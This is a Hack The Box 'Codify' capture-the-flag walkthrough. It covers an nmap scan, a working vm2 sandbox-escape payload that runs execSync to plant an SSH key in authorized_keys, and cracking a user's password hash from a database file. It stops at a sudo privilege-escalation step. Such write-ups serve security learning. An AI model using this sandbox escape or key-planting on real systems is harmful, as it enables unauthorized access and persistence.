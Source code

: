```yaml
---
layout: post
title:  "[HTB] Codify"
date:   2024-07-03
categories: CTF
---
```


As usual let us start with our nmap scan

---

└─# nmap -vv 10.10.11.239
Starting Nmap 7.94 ( https://nmap.org ) at 2024-08-09 05:07 EDT
Initiating Ping Scan at 05:07
Scanning 10.10.11.239 [4 ports]
Completed Ping Scan at 05:07, 0.17s elapsed (1 total hosts)
Initiating Parallel DNS resolution of 1 host. at 05:07
Completed Parallel DNS resolution of 1 host. at 05:07, 0.05s elapsed
Initiating SYN Stealth Scan at 05:07
Scanning 10.10.11.239 [1000 ports]
Discovered open port 80/tcp on 10.10.11.239
Discovered open port 22/tcp on 10.10.11.239
Discovered open port 3000/tcp on 10.10.11.239
Completed SYN Stealth Scan at 05:07, 1.20s elapsed (1000 total ports)
Nmap scan report for 10.10.11.239
Host is up, received echo-reply ttl 63 (0.081s latency).
Scanned at 2024-08-09 05:07:22 EDT for 2s
Not shown: 997 closed tcp ports (reset)
PORT     STATE SERVICE REASON
22/tcp   open  ssh     syn-ack ttl 63
80/tcp   open  http    syn-ack ttl 63
3000/tcp open  ppp     syn-ack ttl 63

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 1.49 seconds
           Raw packets sent: 1004 (44.152KB) | Rcvd: 1003 (40.372KB)

---

Seeing that there is port 80 open, add codify.htb to our /etc/hosts and look at the web application

![alt text](/assets/uploads/htb-codify/image.png)

Seeing that this is a web application that we can test our node.js code, maybe we can also execute a node.js script for a reverse shell such as the one provided here https://gist.github.com/secoats/44b9b42920ac4a825e54e7310303cfdb, and just setup a listener on port 5555. BUT upon trying this, it doesnt work because the module "child_process" is not allowed.

![alt text](/assets/uploads/htb-codify/image-1.png)

So maybe this machine is not that straightforward. Looking more into the web application and we see that it is using vm2 to prevent harmful code being executed on the system. Researching about this revealed a way to bypass the vm2 protection - https://gist.github.com/leesh3288/381b230b04936dd4d74aaf90cc8bb244

So now let us use this "web shell" that we got to insert an ssh public key to the current user's .ssh/authorized_keys so that we can just ssh to the machine as shown below

---

const {VM} = require("vm2");
const vm = new VM();

const code = `
err = {};
const handler = {
    getPrototypeOf(target) {
        (function stack() {
            new Error().stack;
            stack();
        })();
    }
};
  
const proxiedErr = new Proxy(err, handler);
try {
    throw proxiedErr;
} catch ({constructor: c}) {
    c.constructor('return process')().mainModule.require('child_process').execSync('mkdir .ssh ; echo "ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIHa14zd5sTen4GB7qgt++IU1jzZR2y9A0OfMHsoVtjAc root@kali" > .ssh/authorized_keys ');
}
`

console.log(vm.run(code));

---

And now we can just connect to it via ssh

![alt text](/assets/uploads/htb-codify/image-3.png)

So investigating more on the machine, we see that there is another user called joshua, so probably we need to get a way to login to his account. Enumerating more on the machine, we see that there is a file in /var/www/contact called tickets.db and if we look at it, we see that it contains joshua's password hash which we can crack locally using john the ripper

![alt text](/assets/uploads/htb-codify/image-2.png)

![alt text](/assets/uploads/htb-codify/image-4.png)

Now that we have joshua's password, we can just login to his account via ssh and get the user flag

![alt text](/assets/uploads/htb-codify/image-5.png)

Looking for privilege escalation pathways, we check his sudo privileges and we see that we can run the /opt/scripts/mysql-backup.sh script

![alt text](/assets/uploads/htb-codify/image-6.png)

